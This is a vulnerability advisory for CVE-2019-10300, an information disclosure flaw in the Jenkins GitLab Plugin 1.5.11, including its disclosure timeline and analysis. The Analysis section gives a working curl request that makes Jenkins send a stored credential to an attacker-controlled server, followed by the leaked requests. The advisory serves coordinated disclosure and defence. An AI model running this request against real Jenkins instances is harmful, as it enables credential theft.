 ## Jenkins GitLab Plugin - Information disclosure vulnerability

##### Discovered by:
* Peter Adkins <peter.adkins@kernelpicnic.net>

##### Access:
* Local network; authenticated access
* Remote network; authenticated access (See notes)
* Remote network; 'drive-by' via CSRF

##### Tracking and identifiers:
* CVE - CVE-2019-10300

##### Versions Affected:
* Jenkins GitLab Plugin 1.5.11

##### Vendor involvement:
* 2019-03-12 - Vendor Disclosure
* 2019-04-30 - Vendor Patched
* 2019-05-06 - Public Release

##### Notes:
1. This may be exploited by an anonymous user if unauthenticated access is enabled in Jenkins.

1. Due to lack of validation of Cross Site Request Forgery (CSRF) token validation, this vulnerability may also be exploited via CSRF.

1. Originally published under [TALOS-2019-0788](https://talosintelligence.com/vulnerability_reports/TALOS-2019-0788). Mirrored here here for tracking purposes.

##### Overview:
An exploitable information disclosure vulnerability exists in the `testConnection` functionality of the Jenkins GitLab Plugin 1.5.11. A specially crafted HTTP request from a user with Overall/Read permissions - such as an anonymous user, if enabled - can cause affected versions of this plugin to disclose credentials from the Jenkins credentials database to an attacker controlled server.

In order for this attack to be successful, the attacker will need to know the credentials id of the credentials to disclose. This can be found through a number of ways, such as exposed build logs (read), access to the credential manager in the Jenkins UI (read), or through another vulnerable plugin which provides a `fillCredentialsIdItems` style endpoint.

##### Analysis:
This vulnerability exists in the `testConnection` endpoint exposed by the `doTestConnection` method of `com.dabsquared.gitlabjenkins.connection.GitLabConnectionConfig` due to missing Jenkins permissions check.

Due to the way in which this plugin expects to authenticate against the remote GitLab instance, the credentials associated with the attacker-specified `credentialsId` are submitted as part of the HTTP `PRIVATE-TOKEN` header to the attacker-controlled server. An example of this attack against a Jenkins 2.165 instance running a vulnerable version of this plugin and configured to allow anonymous read access has been provided below.

```
# Send credentials to an attacker's server (http://127.0.0.1:7000?).
# The trailing '?' is to ensure that the expected path is appended as a
# query parameter, rather than part of the query path.
$ curl -s -X GET -G \
    -d 'url=http://127.0.0.1:7000/?' \
    -d 'clientBuilderId=autodetect' \
    -d 'apiTokenId=532ba431-e25d-4aad-bc74-fb5b2cc03bd7' \
    'http://127.0.0.1:8080/jenkins/descriptorByName/com.dabsquared.gitlabjenkins.connection.GitLabConnectionConfig/testConnection'
```

The request submitted by the plugin to the remote server as an HTTP GET, will appear similar to the following (multiple requests are submitted to the attacker specified server when the `clientBuilderdId` field above is set to `autodetect`):

```
# First request from Jenkins (GET).
/api/v4/user
Accept: application/json
PRIVATE-TOKEN: ASecretTextEntry
Host: 127.0.0.1:7000
Connection: Keep-Alive

# Second request from Jenkins (GET)
/api/v3/user
Accept: application/json
PRIVATE-TOKEN: ASecretTextEntry
Host: 127.0.0.1:7000
Connection: Keep-Alive
```

It is worth noting that as the response from the attacker-specified server is not in the expected format the plugin will raise an error but not render the response.
